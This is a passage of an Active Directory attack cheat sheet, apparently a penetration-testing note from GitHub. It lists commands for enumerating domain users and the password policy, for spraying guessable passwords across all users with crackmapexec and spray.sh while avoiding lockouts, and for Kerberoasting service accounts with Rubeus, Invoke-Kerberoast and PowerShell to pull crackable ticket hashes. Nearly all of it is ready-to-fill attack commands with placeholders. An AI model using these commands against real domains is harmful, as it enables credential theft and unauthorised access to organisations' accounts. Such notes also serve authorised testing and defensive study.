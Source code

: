 ```
Get-DomainUser | Select-Object -expandproperty samaccountname
```

#### Retrieve the current password policy
```
crackmapexec smb -u <USER> -p <PASSWORD> --pass-pol
```

```
Get-DomainPolicyData
```

#### Spray easy guessable passwords against all these users
- Make sure to keep enough login attempts for the user!
- https://github.com/Greenwolf/Spray
```
crackmapexec smb <DC IP> -u <USER FILE> -p <PASSWORD FILE> --continue-on-success
```

```
spray.sh -smb <DC IP> <USER FILE> <PASSWORD FILE> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <DOMAIN>
```

## Kerberoast
- https://github.com/GhostPack/Rubeus
#### Find user accounts used as service accounts
```
Get-DomainUser -SPN
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
```

```
Rubeus.exe kerberoast /stats
```

```
.\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
```

#### Reguest a TGS
```
Rubeus.exe kerberoast /user:<SERVICEACCOUNT> /simple /domain <DOMAIN> /outfile:kerberoast_hashes.txt
Rubeus.exe kerberoast /rc4opsec /outfile:kerberoast_hashes.txt
```

```
Invoke-Kerberoast -Outputformat hashcat
```

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

```
Request-SPNTicket "<SPN>"
```
